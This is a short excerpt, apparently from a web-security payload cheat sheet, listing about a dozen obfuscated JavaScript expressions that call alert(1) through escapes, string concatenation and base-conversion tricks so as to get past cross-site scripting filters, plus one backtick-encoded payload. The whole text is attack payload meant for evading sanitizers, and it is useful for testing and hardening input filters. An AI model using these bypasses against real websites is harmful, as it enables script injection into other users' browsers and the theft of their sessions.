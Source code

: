 
### Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- `(alert())`

The payload should include leading and trailing backticks:

```js
&#96;`${alert``}`&#96;
```

